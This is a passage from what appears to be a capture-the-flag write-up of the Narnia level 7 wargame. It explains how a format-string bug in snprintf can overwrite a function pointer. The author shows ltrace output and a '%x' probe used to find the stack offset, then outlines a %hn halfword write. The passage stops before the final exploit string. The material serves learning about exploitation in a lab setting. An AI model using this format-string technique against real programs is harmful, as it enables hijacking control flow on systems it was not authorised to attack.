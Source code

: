 This looks like another formatstring exploit - the `snprintf` in `vuln` uses
raw user input for a format. This time, we want to write `ptrf` to point to
`hackedfunction` instead of `goodfunction` before it is called. Luckily, the
program gives us all the addresses we need if we just run it.

{% highlight bash %}
narnia7@melinda:/narnia$ ./narnia7 foo
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
{% endhighlight %}

So we want to change the value of `ptrf` at `0xffffd61c` from `0x80486e0` to
`0x8048706`, in other words, we want to write `0x8706` to the halfword
`0xffffd61c` using the format string vulnerability.

Let's start by using `ltrace` to find the address of our format string.

{% highlight bash %}
narnia7@melinda:/tmp/silentmoose$ ltrace /narnia/narnia7 `python -c 'print "AAAA"+"%x."*6'`
__libc_start_main(0x804868f, 2, 0xffffd764, 0x8048740 <unfinished ...>
memset(0xffffd620, '\0', 128)                                                                                                       = 0xffffd620
printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
)                                                                                          = 27
printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706

)                                                                                      = 30
printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd61cbefore : ptrf() = 0x80486e0 (0xffffd61c)
)                                                                        = 41
puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
)                                                                                         = 50
sleep(2)                                                                                                                            = 0
snprintf("AAAA8048238.ffffd678.f7ffda94.0."..., 128, "AAAA%x.%x.%x.%x.%x.%x.", 0x8048238, 0xffffd678, 0xf7ffda94, 0, 0x80486e0, 0x41414141) = 49
puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
)                                                                                         = 61
fflush(0xf7fcaac0)                                                                                                                  = 0
exit(0 <no return ...>
+++ exited (status 0) +++
{% endhighlight %}

Judging by the `snprintf` call it looks like we need 6 `%x`s before we reach
our string. Now we can prepend the address we want to write `0xffffd61c` and
replace the last `%x` with a `%hn`. We use `%hn` this time because we want to
write the lower half of `ptrf`.

With a bit of trial and error, I came up with the following explot string
script.
